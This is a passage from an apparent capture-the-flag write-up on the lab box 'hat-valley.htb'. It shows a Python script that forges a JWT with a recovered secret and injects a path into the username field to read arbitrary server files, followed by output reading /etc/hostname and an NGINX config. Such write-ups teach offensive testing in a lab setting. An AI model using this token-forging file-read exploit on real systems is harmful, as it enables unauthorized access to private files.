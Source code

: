 

    #!/usr/bin/env python3

    import jwt
    import requests
    import sys


    secret = "123beany123"
    userdata = {"username": f"/' {sys.argv[1]} '/0xdf"}
    token = jwt.encode(userdata, secret)

    resp = requests.get(
        "http://hat-valley.htb/api/all-leave", cookies={"token": token.decode()}
    )

    if len(sys.argv) == 3 and sys.argv[2] == "DOWNLOAD":
        with open(sys.argv[1].split("/")[-1], "wb") as f:
            f.write(resp.content)

    else:
        print(resp.text)



It works:



    oxdf@hacky$ python read_file.py /etc/hostname
    awkward



### Enumerating via File Read

#### Webserver

My first thought is to look for files on the webserver. I can pull the
`default` NGINX config:



    oxdf@hacky$ python read_file.py /etc/nginx/sites-enabled/default | grep -v "#" | grep .
    server {
            listen 80 default_server;
            listen [::]:80 default_server;
            root /var/www.md;
            index index.md index.htm index.nginx-debian.md;
            server_name _;
            location / {
                    try_files $uri $uri/ =404;
            }
    }



Nothing interesting there. If I can guess the name for the store site, I
can see it's a PHP site and it's root dir:

